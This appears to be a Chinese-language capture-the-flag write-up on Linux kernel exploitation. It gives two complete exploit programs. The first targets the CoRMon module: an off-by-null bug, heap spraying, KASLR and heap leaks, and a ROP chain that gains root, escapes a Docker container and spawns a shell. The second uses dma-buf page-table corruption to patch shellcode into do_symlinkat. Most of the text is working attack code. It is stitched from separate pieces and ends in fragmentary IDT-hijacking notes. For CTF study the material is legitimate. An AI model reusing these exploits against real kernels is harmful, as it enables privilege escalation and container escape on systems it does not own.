[...] assign_to_core(0 ); for (int i = 0 ; i < 2048 ; i++) alloc_seq_ops(i); for (int i = 0 ; i < 72 ; i++){ setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } for (int i = 0 ; i < 14 ; i++) create_poll_thread(i, 4096 + 24 , 3000 , false ); for (int i = 72 ; i < MAX_KEYS; i++) { setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } [...]
首先，我们使用 assign_to_core() （一个 sched_setaffinity() 封装函数）将当前进程绑定到核心 0，因为我们在多核环境下工作，而 slab 是每个 CPU 独立的。[1] 接着，我们在 kmalloc-32 中大量喷洒 seq_operations 结构体以填满部分 slab，这样后续的内存分配将落在一个全新的 slab 中。[2]
我们使用 alloc_key() （一个简单的 add_key() 封装器）在 kmalloc-32 中喷洒大量 user_key_payload 结构体。[3] 如上所述，我们利用 setxattr() 确保在分配新的用户密钥之前，该内存块确实已被清零。
现在我们终于将 poll_list 结构喷洒在 kmalloc-4k 中，并通过 kmalloc-32 中的 poll_list 将它们串联起来。[4]我们可以继续在 kmalloc-32 中喷洒更多用户密钥，以完全填满该 slab。[5]
我们准备触发 Off-By-Null 漏洞，劫持 poll_list next 指针并触发任意释放：
[...] write(fd, data, PAGE_SIZE); join_poll_threads(); [...]
我们可以通过向 CoRMon 的 procfs 接口写入 4096 字节来触发 kmalloc-4k 中分配一个内存块。[1] 这还会导致一个空字节被写入边界之外，从而破坏内存中的下一个对象。由于我们在 kmalloc-4k 中喷洒了 poll_list 结构体，且每个结构体都包含一个指向 kmalloc-32 中 poll_list 的指针，因此我们将能够破坏其中一个指针，使其指向我们在上一步中喷洒的用户密钥之一。
现在我们可以使用 join_poll_threads() 并等待定时器到期， poll_list 对象会被自动释放。[2] 其中一个 user_key_payload 也会被释放。
我们造成了一个释放后使用（Use-After-Free）的情况。现在需要利用它来破坏用户密钥，从而获得越界读取（Out-Of-Bounds Read）
[...] for (int i = 2048 ; i < 2048 + 128 ; i++) alloc_seq_ops(i); if (leak_kernel_pointer() < 0 ) { puts ("[X] Kernel pointer leak failed, try again..." ); exit (1 ); } free_all_keys(true ); for (int i = 0 ; i < 72 ; i++) alloc_tty(i); if (leak_heap_pointer(corrupted_key) < 0 ) { puts ("[X] Heap pointer leak failed, try again..." ); exit (1 ); } [...]
首先，我们在 kmalloc-32 中喷洒大量 seq_operations 结构体。其中一个会覆盖上一步释放的用户密钥，用 single_next 指针的低两个字节破坏其 len 字段（一个无符号短整型）。
在我们的案例中， single_next 的低两位字节为 0x4330 ，这将为我们提供一个巨大的越界读取原语。而一个 proc_single_show()指针则会覆盖用户密钥数据字段中的第一个四字。[1]
现在我们可以利用 leak_kernel_pointer() 遍历所有键，直到泄露 proc_single_show 地址，这样就能识别出被损坏的键，并计算出内核基址。[2]接下来我们需要复用越界读取原语来泄露一个堆地址。
当我们打开一个 ptmx 时，会分配两个我们感兴趣的结构体：众所周知的 tty_struct（位于 kmalloc-1024）和另一个 tty_file_private（位于 kmalloc-32）。每个 tty_file_private 结构体都包含一个指向对应 tty_struct 的指针，因此我们可以利用它来泄露 kmalloc-1024 中某个对象的地址
我们可以释放 kmalloc-32 中所有键，[3] 除了被损坏的那个，并用 tty_file_private 结构体替换它们。[4] 然后调用 leak_heap_pointer() ，利用越界读取原语泄露 tty_struct 地址。[5]
[...] for (int i = 2048 ; i < 2048 + 128 ; i++) free_seq_ops(i); for (int i = 0 ; i < 192 ; i++) create_poll_thread(i, 24 , 3000 , true ); free_key(corrupted_key); sleep(1 ); *(uint64_t *)&data[0 ] = target_object - 0x18 ; for (int i = 0 ; i < MAX_KEYS; i++){ setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } [...]
首先，我们释放了 kmalloc-32 中的所有 seq_operations 结构[1]，然后用 poll_list 对象替换它们[2]。请注意，用于破坏用户密钥的 seq_operations 结构也被释放，并被 poll_list 结构替换。
现在我们释放被损坏的密钥，导致 poll_list 出现释放后使用的情况。[3] 为了利用这个释放后使用漏洞，我们复用第一阶段使用的 setxattr() 技巧，但这次不是将内存块清零，而是将其第一个四字组设置为 target object - 0x18 字节 [4]，然后分配一个 user_key_payload 结构体，将 setxattr 缓冲区在内存中整合
换句话说，由于函数返回时 setxattr 使用的内存块会被自动释放，我们分配一个用户密钥（注意， user_key_payload 结构的第一个成员未被初始化）来防止刚通过 setxattr 设置的第一个 QWORD 被后续的内存分配覆盖。[5]
这样，我们将用 target - 0x18 字节覆盖 kmalloc-32 中 poll_list 结构的 next 字段。
[...] for (int i = 0 ; i < 72 ; i++) free_tty(i); sleep(1 ); for (int i = 0 ; i < 1024 ; i++) alloc_pipe_buff(i); [...] free_all_keys(false ); for (int i = 0 ; i < 31 ; i++) keys[i] = alloc_key(n_keys++, buff, 600 ); for (int i = 0 ; i < 1024 ; i++) release_pipe_buff(i); [...]
我们继续释放所有 TTY[1]，并喷射 pipe_buffer 对象[2]。这样，我们就在 kmalloc-1024 中将所有 tty_struct 替换为 pipe_buffer 。然后，等待定时器超时，被损坏的 poll_list 的 next 字段所指向的 pipe_buffer 对象会被自动释放。
最后，我们释放所有用户密钥，并在 kmalloc-1024 中重新分配它们：利用这些密钥来喷洒我们的 ROP 链。[3] 其中一个密钥载荷将破坏目标 pipe_buffer ，用栈迁移gadget覆盖 anon_pipe_buf_ops 指针。
现在我们只需关闭所有管道，触发对 pipe_release()的调用。[4] 这将执行我们的栈迁移 gadget，最终我们就能劫持控制流。
逃逸容器rop
buff = (char *)calloc (1 , 1024 ); *(uint64_t *)&buff[0x10 ] = target_object + 0x30 ; *(uint64_t *)&buff[0x38 ] = kernel_base + 0xffffffff81882840 ; *(uint64_t *)&buff[0x66 ] = kernel_base + 0xffffffff810007a9 ; *(uint64_t *)&buff[0x00 ] = kernel_base + 0xffffffff813c6b78 ; rop = (uint64_t *)&buff[0x80 ]; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff810ebc90 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81a05e4b ; *rop ++= kernel_base + 0xffffffff810eba40 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= 1 ; *rop ++= kernel_base + 0xffffffff810e4fc0 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81a05e4b ; *rop ++= kernel_base + 0xffffffff8100051c ; *rop ++= kernel_base + 0xffffffff8245a720 ; *rop ++= kernel_base + 0xffffffff810ea4e0 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= kernel_base + 0xffffffff82589740 ; *rop ++= kernel_base + 0xffffffff812e7350 ; *rop ++= kernel_base + 0xffffffff810e6cb7 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= getpid(); *rop ++= kernel_base + 0xffffffff810e4fc0 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0x6e0 ; *rop ++= kernel_base + 0xffffffff8102396f ; *rop ++= kernel_base + 0xffffffff817e1d6d ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81c00ef0 + 22 ; *rop ++= 0 ; *rop ++= 0 ; *rop ++= (uint64_t )&win; *rop ++= usr_cs; *rop ++= usr_rflags; *rop ++= (uint64_t )(stack + 0x5000 ); *rop ++= usr_ss;
第一部分没有什么特别之处。我们使用栈迁移小工具劫持控制流[1]，然后通过 prepare_kernel_cred()[2]和 commit_creds()[3]提升权限，接着利用 find_task_by_vpid()[4]定位 Docker 容器任务，并使用 switch_task_namespaces()[5]将其 nsproxy 结构替换为 init_nsproxy。
在 Docker 容器中，与 Google 的 kCTF 不同，setns() 默认被 seccomp 阻止，这意味着我们无法在返回用户空间后使用它进入其他命名空间。
阅读 setns() 的源代码，我们可以看到它调用了 commit_nsset() 来实际将任务移动到不同的命名空间。我们可以通过使用 copy_fs_struct() 克隆 init_fs 结构来复制其功能 [6]，然后使用 find_task_by_vpid() 定位当前任务 [7]，并利用写-写-哪里（write-what-where）小工具手动安装新的 fs_struct。[8]
最后，我们可以使用带有 swapgs_restore_regs_and_return_to_usermode 的 KPTI 蹦床（trampoline）在宿主机上获取 shell。
完整代码代码如下
#define _GNU_SOURCE #include <endian.h> #include <stdint.h> #include <stdio.h> #include <stdlib.h> #include <stdbool.h> #include <string.h> #include <unistd.h> #include <fcntl.h> #include <sched.h> #include <poll.h> #include <pthread.h> #include <keyutils.h> #include <sys/ioctl.h> #include <sys/stat.h> #include <sys/types.h> #include <sys/mman.h> #include <sys/socket.h> #include <sys/syscall.h> #include <sys/resource.h> #include <sys/prctl.h> #include <sys/shm.h> #include <sys/xattr.h> #include <linux/rtnetlink.h> #include <linux/capability.h> #include <linux/genetlink.h> #include <linux/pfkeyv2.h> #include <linux/xfrm.h> #include <net/if.h> #include <arpa/inet.h> #ifdef DEBUG #define debug(...) printf(__VA_ARGS__) #else #define debug(...) do {} while (0) #endif #define HEAP_MASK 0xffff000000000000 #define KERNEL_MASK 0xffffffff00000000 #define PAGE_SIZE 4096 #define MAX_KEYS 199 #define N_STACK_PPS 30 #define POLLFD_PER_PAGE 510 #define POLL_LIST_SIZE 16 #define NFDS(size) (((size - POLL_LIST_SIZE) / sizeof(struct pollfd)) + N_STACK_PPS); pthread_t poll_tid[0x1000 ];size_t poll_threads;pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;uint64_t usr_cs, usr_ss, usr_rflags;uint64_t proc_single_show;uint64_t target_object;uint64_t kernel_base;int pipes[0x1000 ][2 ];int seq_ops[0x10000 ];int ptmx[0x1000 ];int fds[0x1000 ];int keys[0x1000 ];int corrupted_key;int n_keys;int fd;int s;struct t_args { int id; int nfds; int timer; bool suspend; }; struct rcu_head { void *next; void *func; }; struct user_key_payload { struct rcu_head rcu ; unsigned short datalen; char *data[]; }; struct poll_list { struct poll_list *next ; int len; struct pollfd entries []; }; bool is_kernel_pointer (uint64_t addr) { return ((addr & KERNEL_MASK) == KERNEL_MASK) ? true : false ; } bool is_heap_pointer (uint64_t addr) { return (((addr & HEAP_MASK) == HEAP_MASK) && !is_kernel_pointer(addr)) ? true : false ; } void __pause(char *msg){ printf ("[-] Paused - %s\n" , msg); getchar(); } void save_state () { __asm__ __volatile__( "movq %0, cs;" "movq %1, ss;" "pushfq;" "popq %2;" : "=r" (usr_cs), "=r" (usr_ss), "=r" (usr_rflags) : : "memory" ); } int randint (int min, int max) { return min + (rand() % (max - min)); } void assign_to_core (int core_id) { cpu_set_t mask; CPU_ZERO(&mask); CPU_SET(core_id, &mask); if (sched_setaffinity(getpid(), sizeof (mask), &mask) < 0 ) { perror("[X] sched_setaffinity()" ); exit (1 ); } } void assign_thread_to_core (int core_id) { cpu_set_t mask; CPU_ZERO(&mask); CPU_SET(core_id, &mask); if (pthread_setaffinity_np(pthread_self(), sizeof (mask), &mask) < 0 ) { perror("[X] assign_thread_to_core_range()" ); exit (1 ); } } void init_fd (int i) { fds[i] = open("/etc/passwd" , O_RDONLY); if (fds[i] < 1 ) { perror("[X] init_fd()" ); exit (1 ); } } void *alloc_poll_list (void *args) { struct pollfd *pfds ; int nfds, timer, id; bool suspend; id = ((struct t_args *)args)->id; nfds = ((struct t_args *)args)->nfds; timer = ((struct t_args *)args)->timer; suspend = ((struct t_args *)args)->suspend; pfds = calloc (nfds, sizeof (struct pollfd)); for (int i = 0 ; i < nfds; i++) { pfds[i].fd = fds[0 ]; pfds[i].events = POLLERR; } assign_thread_to_core(0 ); pthread_mutex_lock(&mutex); poll_threads++; pthread_mutex_unlock(&mutex); debug("[Thread %d] Start polling...\n" , id); int ret = poll(pfds, nfds, timer); debug("[Thread %d] Polling complete: %d!\n" , id, ret); assign_thread_to_core(randint(1 , 3 )); if (suspend) { debug("[Thread %d] Suspending thread...\n" , id); pthread_mutex_lock(&mutex); poll_threads--; pthread_mutex_unlock(&mutex); while (1 ) { }; } } void create_poll_thread (int id, size_t size, int timer, bool suspend) { struct t_args *args ; args = calloc (1 , sizeof (struct t_args)); if (size > PAGE_SIZE) size = size - ((size/PAGE_SIZE) * sizeof (struct poll_list)); args->id = id; args->nfds = NFDS(size); args->timer = timer; args->suspend = suspend; pthread_create(&poll_tid[id], 0 , alloc_poll_list, (void *)args); } void join_poll_threads (void ) { for (int i = 0 ; i < poll_threads; i++) { pthread_join(poll_tid[i], NULL ); open("/proc/self/stat" , O_RDONLY); } poll_threads = 0 ; } int alloc_key (int id, char *buff, size_t size) { char desc[256 ] = { 0 }; char *payload; int key; size -= sizeof (struct user_key_payload); sprintf (desc, "payload_%d" , id); payload = buff ? buff : calloc (1 , size); if (!buff) memset (payload, id, size); key = add_key("user" , desc, payload, size, KEY_SPEC_PROCESS_KEYRING); if (key < 0 ) { perror("[X] add_key()" ); return -1 ; } return key; } void free_key (int i) { keyctl_revoke(keys[i]); keyctl_unlink(keys[i], KEY_SPEC_PROCESS_KEYRING); n_keys--; } void free_all_keys (bool skip_corrupted_key) { for (int i = 0 ; i < n_keys; i++) { if (skip_corrupted_key && i == corrupted_key) continue ; free_key(i); } sleep(1 ); } char *get_key (int i, size_t size) { char *data; data = calloc (1 , size); keyctl_read(keys[i], data, size); return data; } void alloc_pipe_buff (int i) { if (pipe(pipes[i]) < 0 ) { perror("[X] alloc_pipe_buff()" ); return ; } if (write(pipes[i][1 ], "XXXXX" , 5 ) < 0 ) { perror("[X] alloc_pipe_buff()" ); return ; } } void release_pipe_buff (int i) { if (close(pipes[i][0 ]) < 0 ) { perror("[X] release_pipe_buff()" ); return ; } if (close(pipes[i][1 ]) < 0 ) { perror("[X] release_pipe_buff()" ); return ; } } void alloc_tty (int i) { ptmx[i] = open("/dev/ptmx" , O_RDWR | O_NOCTTY); if (ptmx[i] < 0 ) { perror("[X] alloc_tty()" ); exit (1 ); } } void free_tty (int i) { close(ptmx[i]); } void alloc_seq_ops (int i) { seq_ops[i] = open("/proc/self/stat" , O_RDONLY); if (seq_ops[i] < 0 ) { perror("[X] spray_seq_ops()" ); exit (1 ); } } void free_seq_ops (int i) { close(seq_ops[i]); } int leak_kernel_pointer (void ) { uint64_t *leak; char *key; for (int i = 0 ; i < n_keys; i++) { key = get_key(i, 0x10000 ); leak = (uint64_t *)key; if (is_kernel_pointer(*leak) && (*leak & 0xfff ) == 0x5c0 ) { corrupted_key = i; proc_single_show = *leak; kernel_base = proc_single_show - 0xffffffff813275c0 ; printf ("[+] Corrupted key found: keys[%d]!\n" , corrupted_key); printf ("[+] Leaked proc_single_show address: 0x%llx\n" , proc_single_show); printf ("[+] Kernel base address: 0x%llx\n" , kernel_base + 0xffffffff00000000 ); return 0 ; } } return -1 ; } int leak_heap_pointer (int kid) { uint64_t *leak; char *key; key = get_key(kid, 0x20000 ); leak = (uint64_t *)key; for (int i = 0 ; i < 0x20000 /sizeof (uint64_t ); i++) { if (is_heap_pointer(leak[i]) && (leak[i] & 0xff ) == 0x00 ) { if (leak[i + 2 ] == leak[i + 3 ] && leak[i + 2 ] != 0 ) { target_object = leak[i]; printf ("[+] Leaked kmalloc-1024 object: 0x%llx\n" , target_object); return 0 ; } } } return -1 ; } bool check_root () { int fd; if ((fd = open("/etc/shadow" , O_RDONLY)) < 0 ) return false ; close(fd); return true ; } void win (void ) { if (check_root()) { puts ("[+] We are Ro0ot!" ); char *args[] = { "/bin/bash" , "-i" , NULL }; execve(args[0 ], args, NULL ); } } int main (int argc, char **argv) { char data[0x1000 ] = { 0 }; char key[32 ] = { 0 }; uint64_t *rop; void *stack ; char *buff; assign_to_core(0 ); save_state(); stack = mmap((void *)0xdead000 , 0x10000 , PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1 , 0 ); fd = open("/proc_rw/cormon" , O_RDWR); if (fd < 0 ) { perror("[X] open()" ); return -1 ; } init_fd(0 ); puts ("[*] Saturating kmalloc-32 partial slabs..." ); for (int i = 0 ; i < 2048 ; i++) alloc_seq_ops(i); puts ("[*] Spraying user keys in kmalloc-32..." ); for (int i = 0 ; i < 72 ; i++) { setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } assign_to_core(randint(1 , 3 )); puts ("[*] Creating poll threads..." ); for (int i = 0 ; i < 14 ; i++) create_poll_thread(i, 4096 + 24 , 3000 , false ); assign_to_core(0 ); while (poll_threads != 14 ) { }; usleep(250000 ); puts ("[*] Spraying more user keys in kmalloc-32..." ); for (int i = 72 ; i < MAX_KEYS; i++) { setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } puts ("[*] Corrupting poll_list next pointer..." ); write(fd, data, PAGE_SIZE); puts ("[*] Triggering arbitrary free..." ); join_poll_threads(); puts ("[*] Overwriting user key size / Spraying seq_operations structures..." ); for (int i = 2048 ; i < 2048 + 128 ; i++) alloc_seq_ops(i); puts ("[*] Leaking kernel pointer..." ); if (leak_kernel_pointer() < 0 ) { puts ("[X] Kernel pointer leak failed, try again..." ); exit (1 ); } puts ("[*] Freeing user keys..." ); free_all_keys(true ); puts ("[*] Spraying tty_file_private / tty_struct structures..." ); for (int i = 0 ; i < 72 ; i++) alloc_tty(i); puts ("[*] Leaking heap pointer..." ); if (leak_heap_pointer(corrupted_key) < 0 ) { puts ("[X] Heap pointer leak failed, try again..." ); exit (1 ); } puts ("[*] Freeing seq_operation structures..." ); for (int i = 2048 ; i < 2048 + 128 ; i++) free_seq_ops(i); assign_to_core(randint(1 , 3 )); puts ("[*] Creating poll threads..." ); for (int i = 0 ; i < 192 ; i++) create_poll_thread(i, 24 , 3000 , true ); assign_to_core(0 ); while (poll_threads != 192 ) { }; usleep(250000 ); puts ("[*] Freeing corrupted key..." ); free_key(corrupted_key); sleep(1 ); puts ("[*] Overwriting poll_list next pointer..." ); *(uint64_t *)&data[0 ] = target_object - 0x18 ; for (int i = 0 ; i < MAX_KEYS; i++) { setxattr("/home/user/.bashrc" , "user.x" , data, 32 , XATTR_CREATE); keys[i] = alloc_key(n_keys++, key, 32 ); } puts ("[*] Freeing tty_struct structures..." ); for (int i = 0 ; i < 72 ; i++) free_tty(i); sleep(1 ); puts ("[*] Spraying pipe_buffer structures..." ); for (int i = 0 ; i < 1024 ; i++) alloc_pipe_buff(i); puts ("[*] Triggering arbitrary free..." ); while (poll_threads != 0 ) { }; buff = (char *)calloc (1 , 1024 ); *(uint64_t *)&buff[0x10 ] = target_object + 0x30 ; *(uint64_t *)&buff[0x38 ] = kernel_base + 0xffffffff81882840 ; *(uint64_t *)&buff[0x66 ] = kernel_base + 0xffffffff810007a9 ; *(uint64_t *)&buff[0x00 ] = kernel_base + 0xffffffff813c6b78 ; rop = (uint64_t *)&buff[0x80 ]; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff810ebc90 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81a05e4b ; *rop ++= kernel_base + 0xffffffff810eba40 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= 1 ; *rop ++= kernel_base + 0xffffffff810e4fc0 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81a05e4b ; *rop ++= kernel_base + 0xffffffff8100051c ; *rop ++= kernel_base + 0xffffffff8245a720 ; *rop ++= kernel_base + 0xffffffff810ea4e0 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= kernel_base + 0xffffffff82589740 ; *rop ++= kernel_base + 0xffffffff812e7350 ; *rop ++= kernel_base + 0xffffffff810e6cb7 ; *rop ++= kernel_base + 0xffffffff81001618 ; *rop ++= getpid(); *rop ++= kernel_base + 0xffffffff810e4fc0 ; *rop ++= kernel_base + 0xffffffff8101f5fc ; *rop ++= 0x6e0 ; *rop ++= kernel_base + 0xffffffff8102396f ; *rop ++= kernel_base + 0xffffffff817e1d6d ; *rop ++= 0 ; *rop ++= kernel_base + 0xffffffff81c00ef0 + 22 ; *rop ++= 0 ; *rop ++= 0 ; *rop ++= (uint64_t )&win; *rop ++= usr_cs; *rop ++= usr_rflags; *rop ++= (uint64_t )(stack + 0x5000 ); *rop ++= usr_ss; puts ("[*] Freeing user keys..." ); free_all_keys(false ); puts ("[*] Spraying ROP chain..." ); for (int i = 0 ; i < 31 ; i++) keys[i] = alloc_key(n_keys++, buff, 600 ); puts ("[*] Hijacking control flow..." ); for (int i = 0 ; i < 1024 ; i++) release_pipe_buff(i); for (int i = 0 ; i < 256 ; i++) pthread_join(poll_tid[i], NULL ); }
完整的如下
#define _GNU_SOURCE #include <fcntl.h> #include <sched.h> #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/ioctl.h> #include <sys/mman.h> #include <sys/types.h> #include <unistd.h> #define N_PAGESPRAY 0x200 #define N_FILESPRAY 0x100 #define DMA_HEAP_IOCTL_ALLOC 0xc0184800 typedef unsigned long long u64;typedef unsigned int u32;struct dma_heap_allocation_data { u64 len; u32 fd; u32 fd_flags; u64 heap_flags; }; void fatal (const char *msg) { perror(msg); exit (1 ); } void bind_core (int core) { cpu_set_t cpu_set; CPU_ZERO(&cpu_set); CPU_SET(core, &cpu_set); sched_setaffinity(getpid(), sizeof (cpu_set), &cpu_set); } unsigned long user_cs, user_ss, user_rsp, user_rflags;static void save_state () { asm ( "movq %%cs, %0\n" "movq %%ss, %1\n" "movq %%rsp, %2\n" "pushfq\n" "popq %3\n" : "=r" (user_cs), "=r" (user_ss), "=r" (user_rsp), "=r" (user_rflags) : : "memory" ); } int fd, dmafd, ezfd = -1 ;static void win () { char buf[0x100 ]; int fd = open("/dev/sda" , O_RDONLY); if (fd < 0 ) { puts ("[-] Lose..." ); } else { puts ("[+] Win!" ); read(fd, buf, 0x100 ); write(1 , buf, 0x100 ); puts ("[+] Done" ); } exit (0 ); } int main () { int file_spray[N_FILESPRAY]; void *page_spray[N_PAGESPRAY]; bind_core(0 ); save_state(); int fd = open("/dev/keasy" , O_RDWR); if (fd == -1 ) fatal("/dev/keasy" ); int dmafd = creat("/dev/dma_heap/system" , O_RDWR); if (dmafd == -1 ) fatal("/dev/dma_heap/system" ); for (int i = 0 ; i < N_PAGESPRAY; i++) { page_spray[i] = mmap((void *)(0xdead0000U L + i*0x10000U L), 0x8000 , PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1 , 0 ); if (page_spray[i] == MAP_FAILED) fatal("mmap" ); } puts ("[+] Spraying files..." ); for (int i = 0 ; i < N_FILESPRAY/2 ; i++) if ((file_spray[i] = open("/" , O_RDONLY)) < 0 ) fatal("/" ); int ezfd = file_spray[N_FILESPRAY/2 -1 ] + 1 ; if (ioctl(fd, 0 , 0xdeadbeef ) == 0 ) fatal("ioctl did not fail" ); for (int i = N_FILESPRAY/2 ; i < N_FILESPRAY; i++) if ((file_spray[i] = open("/" , O_RDONLY)) < 0 ) fatal("/" ); puts ("[+] Releasing files..." ); for (int i = 0 ; i < N_FILESPRAY; i++) close(file_spray[i]); puts ("[+] Allocating PTEs..." ); for (int i = 0 ; i < N_PAGESPRAY/2 ; i++) for (int j = 0 ; j < 8 ; j++) *(char *)(page_spray[i] + j*0x1000 ) = 'A' + j; int dma_buf_fd = -1 ; struct dma_heap_allocation_data data ; data.len = 0x1000 ; data.fd_flags = O_RDWR; data.heap_flags = 0 ; data.fd = 0 ; if (ioctl(dmafd, DMA_HEAP_IOCTL_ALLOC, &data) < 0 ) fatal("DMA_HEAP_IOCTL_ALLOC" ); printf ("[+] dma_buf_fd: %d\n" , dma_buf_fd = data.fd); for (int i = N_PAGESPRAY/2 ; i < N_PAGESPRAY; i++) for (int j = 0 ; j < 8 ; j++) *(char *)(page_spray[i] + j*0x1000 ) = 'A' + j; for (int i = 0 ; i < 0x1000 ; i++) if (dup(ezfd) < 0 ) fatal("dup" ); puts ("[+] Searching for overlapping page..." ); void *evil = NULL ; for (int i = 0 ; i < N_PAGESPRAY; i++) { if (*(char *)(page_spray[i] + 7 *0x1000 ) != 'A' + 7 ) { evil = page_spray[i] + 0x7000 ; printf ("[+] Found overlapping page: %p\n" , evil); break ; } } if (evil == NULL ) fatal("target not found :(" ); puts ("[+] Remapping..." ); munmap(evil, 0x1000 ); void *dmabuf = mmap(evil, 0x1000 , PROT_READ | PROT_WRITE, MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0 ); *(char *)dmabuf = '0' ; for (int i = 0 ; i < 0x1000 ; i++) if (dup(ezfd) < 0 ) fatal("dup" ); printf ("[+] DMA-BUF now points to PTE: 0x%016lx\n" , *(size_t *)dmabuf); void *wwwbuf = NULL ; *(size_t *)dmabuf = 0x800000000009c067 ; for (int i = 0 ; i < N_PAGESPRAY; i++) { if (page_spray[i] == evil) continue ; if (*(size_t *)page_spray[i] > 0xffff ) { wwwbuf = page_spray[i]; printf ("[+] Found victim page table: %p\n" , wwwbuf); break ; } } size_t phys_base = ((*(size_t *)wwwbuf) & ~0xfff ) - 0x1c04000 ; printf ("[+] Physical kernel base address: 0x%016lx\n" , phys_base); puts ("[+] Overwriting do_symlinkat..." ); size_t phys_func = phys_base + 0x24d4c0 ; *(size_t *)dmabuf = (phys_func & ~0xfff ) | 0x8000000000000067 ; char shellcode[] = {0xf3 , 0x0f , 0x1e , 0xfa , 0xe8 , 0x00 , 0x00 , 0x00 , 0x00 , 0x41 , 0x5f , 0x49 , 0x81 , 0xef , 0xc9 , 0xd4 , 0x24 , 0x00 , 0x49 , 0x8d , 0xbf , 0xd8 , 0x5e , 0x44 , 0x01 , 0x49 , 0x8d , 0x87 , 0x20 , 0xe6 , 0x0a , 0x00 , 0xff , 0xd0 , 0xbf , 0x01 , 0x00 , 0x00 , 0x00 , 0x49 , 0x8d , 0x87 , 0x50 , 0x37 , 0x0a , 0x00 , 0xff , 0xd0 , 0x48 , 0x89 , 0xc7 , 0x49 , 0x8d , 0xb7 , 0xe0 , 0x5c , 0x44 , 0x01 , 0x49 , 0x8d , 0x87 , 0x40 , 0xc1 , 0x0a , 0x00 , 0xff , 0xd0 , 0x49 , 0x8d , 0xbf , 0x48 , 0x82 , 0x53 , 0x01 , 0x49 , 0x8d , 0x87 , 0x90 , 0xf8 , 0x27 , 0x00 , 0xff , 0xd0 , 0x48 , 0x89 , 0xc3 , 0x48 , 0xbf , 0x11 , 0x11 , 0x11 , 0x11 , 0x11 , 0x11 , 0x11 , 0x11 , 0x49 , 0x8d , 0x87 , 0x50 , 0x37 , 0x0a , 0x00 , 0xff , 0xd0 , 0x48 , 0x89 , 0x98 , 0x40 , 0x07 , 0x00 , 0x00 , 0x31 , 0xc0 , 0x48 , 0x89 , 0x04 , 0x24 , 0x48 , 0x89 , 0x44 , 0x24 , 0x08 , 0x48 , 0xb8 , 0x22 , 0x22 , 0x22 , 0x22 , 0x22 , 0x22 , 0x22 , 0x22 , 0x48 , 0x89 , 0x44 , 0x24 , 0x10 , 0x48 , 0xb8 , 0x33 , 0x33 , 0x33 , 0x33 , 0x33 , 0x33 , 0x33 , 0x33 , 0x48 , 0x89 , 0x44 , 0x24 , 0x18 , 0x48 , 0xb8 , 0x44 , 0x44 , 0x44 , 0x44 , 0x44 , 0x44 , 0x44 , 0x44 , 0x48 , 0x89 , 0x44 , 0x24 , 0x20 , 0x48 , 0xb8 , 0x55 , 0x55 , 0x55 , 0x55 , 0x55 , 0x55 , 0x55 , 0x55 , 0x48 , 0x89 , 0x44 , 0x24 , 0x28 , 0x48 , 0xb8 , 0x66 , 0x66 , 0x66 , 0x66 , 0x66 , 0x66 , 0x66 , 0x66 , 0x48 , 0x89 , 0x44 , 0x24 , 0x30 , 0x49 , 0x8d , 0x87 , 0x41 , 0x0f , 0xc0 , 0x00 , 0xff , 0xe0 , 0xcc }; void *p; p = memmem(shellcode, sizeof (shellcode), "\x11\x11\x11\x11\x11\x11\x11\x11" , 8 ); *(size_t *)p = getpid(); p = memmem(shellcode, sizeof (shellcode), "\x22\x22\x22\x22\x22\x22\x22\x22" , 8 ); *(size_t *)p = (size_t )&win; p = memmem(shellcode, sizeof (shellcode), "\x33\x33\x33\x33\x33\x33\x33\x33" , 8 ); *(size_t *)p = user_cs; p = memmem(shellcode, sizeof (shellcode), "\x44\x44\x44\x44\x44\x44\x44\x44" , 8 ); *(size_t *)p = user_rflags; p = memmem(shellcode, sizeof (shellcode), "\x55\x55\x55\x55\x55\x55\x55\x55" , 8 ); *(size_t *)p = user_rsp; p = memmem(shellcode, sizeof (shellcode), "\x66\x66\x66\x66\x66\x66\x66\x66" , 8 ); *(size_t *)p = user_ss; memcpy (wwwbuf + (phys_func & 0xfff ), shellcode, sizeof (shellcode)); puts ("[+] GO!GO!" ); printf ("%d\n" , symlink("/jail/x" , "/jail" )); puts ("[-] Failed..." ); close(fd); getchar(); return 0 ; }
IOP
IDT是中断描述符表，其中包括一个处理程序地址的字段，可以泄露kaslr，修改该字段实现RIP劫持
中断只会修改 RIP、RSP、CS 和 SS，我们可以完全控制其他寄存器
从用户态除以零进入链 -> 偏移至 entry_SYSCALL_64 （kPTI 页表交换）-> 引发页错误（基于 RSP 的 gs 获取，由于用户 gs 无效）
双重故障（RSP 被 CR3 覆盖，导致缺页处理程序调用失败）-> entry_SYSRETQ_unsafe_stack (swapgs; sysret) ->
